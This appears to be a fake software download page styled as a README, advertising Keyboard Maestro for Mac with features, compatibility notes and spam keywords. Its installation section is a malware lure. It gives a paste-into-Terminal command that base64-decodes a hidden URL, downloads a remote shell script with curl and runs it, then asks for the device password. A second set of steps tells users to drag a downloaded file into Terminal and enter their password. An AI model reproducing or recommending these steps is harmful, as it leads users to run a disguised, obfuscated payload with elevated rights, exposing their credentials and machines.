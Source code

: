 # Keyboard Maestro Mac Download – The Ultimate Mac Automation Tool

![Keyboard Maestro Logo](https://www.macsparky.com/wp-content/uploads/2023/10/Keyboard-Maestro.png)

> **Version:** Keyboard Maestro 11  
> **Updated:** July 2025  
> **Compatibility:** macOS 10.13 High Sierra and newer (including Apple Silicon M1, M2, M3)

---

## 📦 Download Keyboard Maestro for Mac

[![⬇️ Download Now](https://img.shields.io/badge/Keyboard%20%20Maestro-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/keyboardmaestro)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🤖 What is Keyboard Maestro for Mac?

**Keyboard Maestro** is an advanced macOS automation tool designed to help users streamline workflows, save time, and enhance productivity. Whether you're a power user, a developer, a writer, or just someone who wants to automate repetitive tasks, Keyboard Maestro allows you to create **custom macros** that perform actions with the press of a key or based on triggers like login, USB connections, or application events.

At its core, Keyboard Maestro provides a powerful editor where you can build **multi-step actions** using a drag-and-drop interface. These actions can include:

- Launching or quitting apps  
- Typing text or simulating keystrokes  
- Controlling windows or the clipboard  
- Moving and clicking the mouse  
- Interacting with menus, files, or system preferences  
- Running scripts in AppleScript, Shell, or JavaScript  
- Creating custom automation chains for apps like **Pro Tools**, **Final Cut**, **Xcode**, and more

One of Keyboard Maestro's key strengths is its flexibility: it supports complex conditional logic, variables, loops, and user input prompts, allowing you to build sophisticated workflows without needing traditional programming.

It also integrates seamlessly with **macOS Monterey, Ventura, and Sonoma**, and it runs natively on both **Intel and Apple Silicon (M1, M2, M3)** Macs.

Whether you're automating video editing workflows, simplifying software testing, managing clipboard history, or automating your daily writing routine, **Keyboard Maestro** is your personal digital assistant — customizable, precise, and always available at a keystroke.

---

## 🖼️ Screenshots

![Keyboard Maestro Interface](https://www.keyboardmaestro.com/img/v11/overview.png)

---

## 🔑 Features

- 🧠 **Custom Macros**: Build powerful action chains using over 250 actions  
- ⌨️ **Keyboard Shortcuts**: Trigger workflows with hotkeys or typed strings  
- 🖥️ **Window Management**: Move, resize, and control app windows  
- 📋 **Clipboard History**: Store and recall clipboard entries  
- 🎛️ **App Automation**: Automate Pro Tools, Final Cut, Logic, Safari, Chrome, and more  
- 🧩 **Scripting Support**: Run Shell, AppleScript, or JavaScript inside macros  
- 🔁 **Looping & Logic**: If/else conditions, variables, while loops  
- 🚀 **App Triggers**: Macros can trigger on login, system wake, app launch, or USB activity  
- 🧰 **Native macOS Integration**: Dark mode, Apple Silicon support, menu bar integration  
- 🔄 **Sync Macros via Dropbox or iCloud Drive**

---

## 💻 macOS Compatibility

- macOS High Sierra (10.13) to macOS Sonoma  
- Fully native Apple Silicon (M1, M2, M3) support  
- Works great on MacBook Pro, MacBook Air, iMac, Mac Studio, and Mac mini

---

## 💬 Keywords

keyboard maestro, key maestro, keyboard maestro mac, keyboard maestro mac download,
download keyboard maestro, keyboard maestro for mac, maestro for mac,
keyboard maestro app, keyboard maestro 10, keyboard maestro m1,
keyboard maestro editor, keyboard maestro editor mac,
keyboard maestro coupon, keyboard maestro black friday, keyboard maestro discount,
keyboard maestro pro tools, keyboard maestro price

